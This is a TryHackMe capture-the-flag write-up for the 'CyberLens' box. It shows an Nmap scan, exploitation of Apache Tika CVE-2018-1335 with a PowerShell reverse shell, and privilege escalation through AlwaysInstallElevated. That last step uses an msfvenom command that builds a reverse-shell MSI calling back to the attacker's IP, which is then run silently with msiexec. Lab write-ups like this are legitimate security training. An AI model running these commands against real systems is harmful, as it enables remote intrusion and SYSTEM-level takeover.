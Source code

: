 # THM - CyberLens

### Ip: 10.10.126.76
### Name: CyberLens
### Rating: Easy

------------------------------------------------

![thm_cyberlens_pic.svg](../assets/cyberlens_assets/thm_cyberlens_pic.svg)

### Challenge Description

```
Welcome to the clandestine world of CyberLens, where shadows dance amidst the digital domain and metadata reveals the secrets that lie concealed within every image. As you embark on this thrilling journey, prepare to unveil the hidden matrix of information that lurks beneath the surface, for here at CyberLens, we make metadata our playground.

In this labyrinthine realm of cyber security, we have mastered the arcane arts of digital forensics and image analysis. Armed with advanced techniques and cutting-edge tools, we delve into the very fabric of digital images, peeling back layers of information to expose the unseen stories they yearn to tell.

Picture yourself as a modern-day investigator, equipped not only with technical prowess but also with a keen eye for detail. Our team of elite experts will guide you through the intricate paths of image analysis, where file structures and data patterns provide valuable insights into the origins and nature of digital artifacts.

At CyberLens, we believe that every pixel holds a story, and it is our mission to decipher those stories and extract the truth. Join us on this exciting adventure as we navigate the digital landscape and uncover the hidden narratives that await us at every turn.

Can you exploit the CyberLens web server and discover the hidden flags? 
```

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/CyberLens]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.126.76
Starting Nmap 7.93 ( https://nmap.org ) at 2025-01-15 10:20 CST
Warning: 10.10.126.76 giving up on port because retransmission cap hit (10).
Nmap scan report for cyberlens.thm (10.10.126.76)
Host is up (0.13s latency).
Not shown: 65408 closed tcp ports (reset), 111 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.57 ((Win64))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.57 (Win64)
|_http-title: CyberLens: Unveiling the Hidden Matrix
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: CYBERLENS
|   NetBIOS_Domain_Name: CYBERLENS
|   NetBIOS_Computer_Name: CYBERLENS
|   DNS_Domain_Name: CyberLens
|   DNS_Computer_Name: CyberLens
|   Product_Version: 10.0.17763
|_  System_Time: 2025-01-15T16:22:01+00:00
|_ssl-date: 2025-01-15T16:22:07+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=CyberLens
| Not valid before: 2025-01-14T16:05:07
|_Not valid after:  2025-07-16T16:05:07
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
61777/tcp open  http          Jetty 8.y.z-SNAPSHOT
| http-methods: 
|_  Potentially risky methods: PUT
|_http-cors: HEAD GET
|_http-title: Site doesn't have a title (text/plain).
|_http-server-header: Jetty(8.y.z-SNAPSHOT)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-01-15T16:21:59
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.61 seconds
```

Let's add cyberlens.thm to `/etc/hosts`.

Looking at the site we find a file upload that seems to extract metadata from images:

![thm_cyberlens_site.png](../assets/cyberlens_assets/thm_cyberlens_site.png)

I uploaded a copy of the screenshot above and it returned it's metadata:

![thm_cyberlens_meta.png](../assets/cyberlens_assets/thm_cyberlens_meta.png)

Looking at port 61777 at http://cyberlens.thm:61777/ we find it is running Tika:

![thm_cyberlense_tika.png](../assets/cyberlens_assets/thm_cyberlens_tika.png)

### Exploitation

Looking for exploits against Tika I find interesting writeup: https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/

Which also has a helpful POC script at: https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2018-1335

We can use this exploit script alongside a Base64 encoded PowerShell reverse shell oneliner from revshells.com and get a callback:

![thm_cyberlens_shell.png](../assets/cyberlens_assets/thm_cyberlens_shell.png)

We can now grab the user.txt flag:

![thm_cyberlens_user.png](../assets/cyberlens_assets/thm_cyberlens_user.png)

### Privilege Escalation

We can load up PowerUp.ps1 to help enumerate a privilege escalation vector:

![thm_cyberlens_powerup.png](../assets/cyberlens_assets/thm_cyberlens_powerup.png)

Cool, looks like AlwaysInstallElevated is enabled.

We can manually confirm with:

```
PS C:\temp> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

PS C:\temp> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

Let's now create a malicious reverse shell .msi file:

```
┌──(ryan㉿kali)-[~/THM/CyberLens]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.72.91 LPORT=443 -f msi -o reverse.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: reverse.msi
```

Once the file is transferred to the target we can set up a nc listener and run: `msiexec /quiet /qn /i reverse.msi`

Which catches us a shell back as system:

![thm_cyberlens_system.png](../assets/cyberlens_assets/thm_cyberlens_system.png)

And we can now grab the final flag:

![thm_cyberlens_root.png](../assets/cyberlens_assets/thm_cyberlens_root.png)

Thanks for following along!

-Ryan

-------------------------------------------------

